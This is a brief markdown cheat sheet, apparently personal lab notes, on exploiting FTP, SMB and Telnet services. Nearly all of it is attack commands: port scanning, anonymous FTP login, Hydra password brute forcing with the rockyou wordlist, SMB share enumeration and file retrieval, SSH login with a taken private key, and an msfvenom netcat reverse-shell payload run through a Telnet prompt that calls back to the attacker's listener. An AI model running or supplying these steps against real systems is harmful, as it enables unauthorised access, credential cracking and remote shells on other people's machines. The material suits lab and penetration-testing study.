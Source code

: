 # FTP Exploitation
Use nmap to check port 21
`>ftp {target ip}`
Anonymous login may be possible (name anonymous, no password)
We can use Hydra to brute force the password of an FTP user
`>locate rockyou`
`>hydra ‐l {username} ‐P /usr/share/wordlists/rockyou.txt –v 10.10.223.20 ftp`
FTP Commands (ls, get)

# SMB Exploitation
Default ports 139 & 445
`>​​nmap ‐sS ‐T4 10.10.50.26`
`>enum4linux ‐a 10.10.50.26`
Or
`>sudo nmap ‐‐script smb‐os‐discovery.nse 10.10.50.26`
`>smbclient ‐L (to list all shares)`
`>smbclient //10.10.50.26/share  (access it)`
`>cat “Filename” or >more “Filename” or >get “filename”`
To get an rsa key to work chmod 600 id_rsa
`>ssh -i id_rsa cactus@{targetIP}`

# Telnet Exploitation
```
>nmap –sS –T4 ‐p‐ 10.10.50.26   (normally port 23)
>telnet $IP $PORT
>.HELP (to view commands

--Attacker machine--
>sudo tcpdump ip proto //icmp -i tun0

--Telnet prompt--
.RUN ping {attacker IP} -c 1

-—New attack—-
>msfvenom -l payloads | grep netcat
>msfvenom -p cmd/unix/reverse_netcat LHOST=10.8.64.134 LPORT=444
Copy generated payload string
>nc -lnvp 444 (to listen for the reverse shell)
—-
On target machine through telnet prompt
>.RUN {generated payload}
—-
Back on reverse shell listener
>ls
>cat “filename”
>whoami
```
